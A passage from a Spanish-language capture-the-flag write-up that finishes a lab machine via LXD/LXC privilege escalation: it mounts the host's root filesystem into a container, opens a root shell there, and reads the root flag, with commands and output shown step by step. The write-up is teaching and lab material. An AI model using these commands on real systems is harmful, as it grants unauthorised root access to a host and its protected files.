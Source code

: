 * Montando el sistema de archivos del host dentro del **contenedor LXC** llamado **hackeado**:
```bash
concebolla@tortillapapas:~$ lxc config device add hackeado hack2 disk source=/ path=/mnt/root recursive=true
Device hack2 added to hackeado
```
Aquí `lxc config device add` agrega un dispositivo al **contenedor hackeado**, el nombre **hackeado** es el que se le asignó al dispositivo agregado, **disk** define el tipo de dispositivo siendo este caso un **disco (filesystem)**, `source=/` crea la montura de la raíz del host dentro del contenedor, `path=/mnt/root` indica que la montura quedara dentro del contenedor en la ruta `/mnt/root`, y por último recursive=true incluye todo el contenido de `/`, permitiendo el acceso recursivo a todos los archivos y subdirectorios.

* Iniciando el contenedor y listando los contenedores activos:
```bash
concebolla@tortillapapas:~$ lxc start hackeado
concebolla@tortillapapas:~$ lxc ls
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
|   NAME   |  STATE  |        IPV4         |                     IPV6                      |   TYPE    | SNAPSHOTS |
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| hackeado | RUNNING |        XXXX  (eth0) |                     XXXX               (eth0) | CONTAINER | 0         |
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| ignite   | RUNNING |        XXXX  (eth0) |                     XXXX               (eth0) | CONTAINER | 0         |
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| test     | RUNNING |                     |                     XXXX               (eth0) | CONTAINER | 0         |
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
```

* Ejecutando una sesión Shell dentro del **contenedor hackeado**:
```bash
concebolla@tortillapapas:~$ lxc exec hackeado -- /bin/sh
~ # whoami
root
```
En este caso, no podremos obtener una **sesión de Bash** por el tipo de imagen que usamos.

* Podemos ver los mismos archivos del **Root** de la máquina víctima y podemos volver a obtener la **flag del Root**:
```bash
~ # cd /mnt/root/root
/mnt/root/root # ls -la
total 36
drwx------    4 root     root          4096 Apr 18  2024 .
drwxr-xr-x   18 root     root          4096 Apr 12  2024 ..
lrwxrwxrwx    1 root     root             9 Apr 14  2024 .bash_history -> /dev/null
-rw-r--r--    1 root     root           571 Apr 10  2021 .bashrc
-rw-------    1 root     root            20 Apr 15  2024 .lesshst
drwxr-xr-x    3 root     root          4096 Apr 12  2024 .local
-rw-r--r--    1 root     root           161 Jul  9  2019 .profile
-rw-r--r--    1 root     root            66 Apr 18  2024 .selected_editor
drwx------    2 root     root          4096 Apr 14  2024 .ssh
-rw-r--r--    1 root     root            33 Apr 16  2024 root.txt
/mnt/root/root # cat root.txt
...
```
Y con esto, completamos la máquina.
